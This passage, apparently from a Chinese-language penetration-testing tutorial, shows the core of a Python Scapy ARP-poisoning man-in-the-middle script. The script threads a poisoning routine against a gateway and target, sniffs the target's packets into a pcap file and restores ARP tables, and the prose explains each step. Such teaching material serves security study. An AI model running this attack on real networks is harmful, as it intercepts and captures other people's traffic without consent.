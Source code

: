```
mitm_thread = threading.Thread(target = poison_target, args = (gateway, gwmac_addr, target, targetmac_addr)) 
```

```
mitm_thread.start() 
```

```
try: 
```

```
   print("\nMitM sniffing started. Total packets to be sniffed: %d" % packets) 
```

```
   bpf = "ip host %s" % target 
```

```
   cap_packets = sniff(count=packets, filter=bpf, iface=interface) 
```

```
   wrpcap('arpMITMresults.pcap', cap_packets) 
```

```
   restore(gateway, gwmac_addr, target, targetmac_addr) 
```

```
except KeyboardInterrupt: 
```

```
   restore(gateway, gwmac_addr, target, targetmac_addr) 
```

```
   sys.exit(0)
```

下面是发生的事情：

+   我们首先通过调用**macgrab()**来获取网关和目标 IP 地址。回想一下，**macgrab()**返回的是 MAC 地址，然后分别存储为**gwmac_addr**和**targetmac_addr**。

+   可能的返回值是**None**，所以我们的**if...else**语句会处理这种情况：如果返回值不是**None**，则将值打印到屏幕上，否则会发出警告，并调用**sys.exit()**。

+   **threading.Thread()**类将**poison_target()**定义为我们的目标函数，并将目标和网关信息作为参数传递。

+   **mitm_thread.start()** 启动了攻击，但它是作为一个线程运行的。程序继续执行**try**语句。

+   这里是我们设置嗅探器的地方。这是一个有趣的用例，展示了如何在 Python 中使用 Scapy；请注意，我们将过滤器构造为一个名为**bpf**的字符串变量。调用**sniff()**时，返回的数据会以**cap_packets**的形式存储在内存中。**wrpcap()**会创建一个**pcap**格式的数据包捕获文件。注意，**sniff()**也传递了数据包数量作为参数，那么当这个数字用完时会发生什么？代码会继续调用**restore()**。如果在此之前收到*Ctrl* + *C*的输入，**restore()**仍然会被调用。

正如你所看到的，这个演示中写的**print**语句是基础的。我鼓励你让它看起来更漂亮一些。

别忘了进行路由
